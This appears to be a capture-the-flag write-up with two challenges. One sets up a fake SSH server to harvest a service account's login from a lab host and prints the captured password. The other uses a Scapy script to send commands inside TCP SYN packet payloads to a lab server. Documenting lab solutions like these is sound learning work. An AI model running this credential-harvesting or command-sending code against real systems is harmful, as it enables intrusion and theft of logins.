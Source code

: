 KnockKnock
=====================================
It was not about attacking, but listening on the laptop.
There was a connection to port 22 from the server 10.13.37.99
Let's install a FakeSSH serveur :
git clone https://github.com/tylermenezes/FakeSSH

sudo pip install paramiko

cd FakeSSH
cp ./data/config.sample.json ./data/config.json
ssh-keygen -f ./data/rsa -m 'PEM' 
set no password

sudo python3 server.py

wait max 10min

![](https://github.com/k4nfr3/CTF-writeup/blob/master/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m

![](https://github.com/k4nfr3/CTF-writeup/blob/master/fakessh_2.jpg)

================================================================================================================================
Net1
==============

Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data
===========================
from scapy.all import *
def main():
    while True:
        command = raw_input('# Enter command: ')
        # build the TCPSYN packet with the command as the payload
        pinger = IP(dst="10.13.37.98")
        SYN = TCP(sport=6666, dport=3258, flags='S', seq=1000)
        xsyn = pinger / SYN / command
        send(xsyn)
if __name__ == "__main__":
    main()
 ====================================   
but Nothing, back from the server.

Hint : We got the password "SyN"

Ok, let's send some commands





